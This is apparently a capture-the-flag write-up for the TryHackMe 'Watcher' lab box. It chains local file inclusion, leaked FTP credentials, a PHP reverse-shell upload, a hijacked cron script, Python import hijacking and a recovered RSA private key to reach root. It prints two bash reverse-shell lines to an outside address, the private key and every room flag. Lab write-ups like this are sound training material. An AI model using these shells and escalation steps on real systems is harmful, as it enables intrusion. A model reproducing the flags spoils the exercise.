 # Tryhackme.com Room : Watcher

`https://tryhackme.com/room/watcher`

## Initlal Foothold

We have a website running `apache` on port `80`.
Looking at `/robots.txt` we get :
```
Allow: /flag_1.txt
Allow: /secret_file_do_not_read.txt
```

We retrieve the first flag at `/flag_1.txt`:
```
FLAG{robots_dot_text_what_is_next}
```

We get a permission denied for `/secret_file_do_not_read.txt`
There is a `LFI` at `/post.php?post=/etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
will:x:1000:1000:will:/home/will:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
```

We can't retrieve `ssh` keys for users `mat`, `toby` or `will`.
We can't retrieve `/var/log/apache2/access.log` either.

Let's check the file that we couldn't read earlier `/post.php?post=secret_file_do_not_read.txt`

```
Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will

----------

ftpuser:givemefiles777
```

We can retrieve the second flag `flag_2.txt` :
```
FLAG{ftp_you_and_me}
```

There is a folder named `files` but it's empty. Seems like that all we can do on the `ftp` server.
Actually, there is more we can do using the `ftp` server.
We know that the ftp is served from `/home/ftpuser/ftp` so we can upload a `php` file in there and use the `lfi` to get a shell. I tested with `phpinfo()` and it work.
Now we upload a `php revshell`:
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.6.32.20/7777 0>&1'");
```
We now have a shell as `www-data`.
we find the folder `/var/www/html/more_secrets_a9f10a` which contains `flag_3.txt`:
```
FLAG{lfi_what_a_guy}
```

## Lateral movement
We look into `/home/mat` and find `/home/mat/note.txt` :
```
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```
Look like we need to be `mat` to move to `will` user.

running `sudo -l` as `www-data` we see :
```
User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```

Lets `sudo -u toby /bin/bash`.
We find the next flag in `/home/toby/flag_4.txt`:
```
FLAG{chad_lifestyle}
```
We also see `/home/toby/note.txt` :
```
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```
There is a script in `/home/toby/jobs/cow.sh` that we can edit. This is probably the script runned as `mat` in the `cronjob`. 
We look at `/etc/crontab` and see :
```
*/1 * * * * mat /home/toby/jobs/cow.sh
```
We add a reverse shell at the end of `cow.sh` and we get a shell as `mat`.
We find the fifth flag in `/home/mat/flag_5.txt` :
```
FLAG{live_by_the_cow_die_by_the_cow}
```

As mentionned in the note in `/home/mat/note.txt` we can run `sudo` :
```
User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

`/home/mat/scripts/will_script.py` :
```
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```

It import `get_command` from `/home/mat/scripts/cmd.py` :
```
def get_command(num):
        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```

We can simply add another revshell inside `cmd.py` and it will be executed when the file is imported.
We just add these lines at the end of `cmd.py` :
```python
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/10.6.32.20/7779 0>&1'")
```

Then run `sudo -u will python3 /home/mat/scripts/will_script.py 2` and we get a shell as `will`
We retrieve the next flag in `/home/will/flag_6.txt`:
```
FLAG{but_i_thought_my_script_was_secure}
```

## Priv esc

`will` doesn't have `sudo` rights.
We see that `will` is member of `adm` group
We search for files belonging to this group using `find / -group adm 2>/dev/null` and find
```
/opt/backup/key.b64
```

Which is a private key encoded as `base64`.
We just decode it and get 
```
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAzPaQFolQq8cHom9mssyPZ53aLzBcRyBw+rysJ3h0JCxnV+aG
opZdcQz01YOYdjYIaZEJmdcPVWQp/L0uc5u3igoiK1uiYMfw850N7t3OX/erdKF4
jqVu3iXN9doBmr3TuU9RJkVnDDuo8y4DtIuFCf92ZfEAJGUB2+vFON7q4KJsIxgA
nM8kj8NkFkFPk0d1HKH2+p7QP2HGZrf3DNFmQ7Tuja3zngbEVO7NXx3V3YOF9y1X
eFPrvtDQV7BYb6egklafs4m4XeUO/csM84I6nYHWzEJ5zpcSrpmkDHxC8yH9mIVt
dSelabW2fuLAi51UR/2wNqL13hvGglpePhKQgQIDAQABAoIBAHmgTryw22g0ATnI
9Z5geTC5oUGjZv7mJ2UDFP2PIwxcNS8aIwbUR7rQP3F8V7q+MZvDb3kU/4pil+/c
q3X7D50gikpEZEUeIMPPjPcUNGUKaXoaX5n2XaYBtQiRR6Z1wvASO0uEn7PIq2cz
BQvcRyQ5rh6sNrNiJQpGDJDE54hIigic/GucbynezYya8rrIsdWM/0SUl9JknI0Q
TQOi/X2wfyryJsm+tYcvY4ydhChK+0nVTheciUrV/wkFvODbGMSuuhcHRKTKc6B6
1wsUA85+vqNFrxzFY/tW188W00gy9w51bKSKDxboti2gdgmFolpnFw+t0QRB5RCF
AlQJ28kCgYEA6lrY2xyeLh/aOBu9+Sp3uJknIkObpIWCdLd1xXNtDMAz4OqbrLB5
fJ/iUcYjwOBHt3NNkuUm6qoEfp4Gou14yGzOiRkAe4HQJF9vxFWJ5mX+BHGI/vj2
Nv1sq7PaIKq4pkRBzR6M/ObD7yQe78NdlQvLnQTlWp4njhjQoHOsovsCgYEA3+TE
7QR77yQ8l1iGAFYRXIzBgp5eJ2AAvVpWJuINLK5lmQ/E1x2K98E73CpQsRDG0n+1
vp4+Y8J0IB/tGmCf7IPMeiX80YJW7Ltozr7+sfbAQZ1Ta2o1hCalAQyIk9p+EXpI
UbBVnyUC1XcvRfQvFJyzgccwExEr6glJKOj64bMCgYEAlxmx/jxKZLTWzxxb9V4D
SPs+NyJeJMqMHVL4VTGh2vnFuTuq2cIC4m53zn+xJ7ezpb1rA85JtD2gnj6nSr9Q
A/HbjJuZKwi8uebquizot6uFBzpouPSuUzA8s8xHVI6edV1HC8ip4JmtNPAWHkLZ
gLLVOk0gz7dvC3hGc12BrqcCgYAhFji34iLCi3Nc1lsvL4jvSWnLeMXnQbu6P+Bd
bKiPwtIG1Zq8Q4Rm6qqC9cno8NbBAtiD6/TCX1kz6iPq8v6PQEb2giijeYSJBYUO
kJEpEZMF308Vn6N6/Q8DYavJVc+tm4mWcN2mYBzUGQHmb5iJjkLE2f/TwYTg2DB0
mEGDGwKBgQCh+UpmTTRx4KKNy6wJkwGv2uRdj9rta2X5pzTq2nEApke2UYlP5OLh
/6KHTLRhcp9FmF9iKWDtEMSQ8DCan5ZMJ7OIYp2RZ1RzC9Dug3qkttkOKAbccKn5
4APxI1DxU+a2xXXf02dsQH0H5AhNCiTBD7I5YRsM1bOEqjFdZgv6SA==
-----END RSA PRIVATE KEY-----
```

Easy peasy.
We use the key to ssh as `root` and we retrieve the last flag :
`/root/flag_7.txt`
```
FLAG{who_watches_the_watchers}
```

## Wrap up
* This was a pretty easy box with a lot of hints (As files on the boxe). Didn't learn anything new.

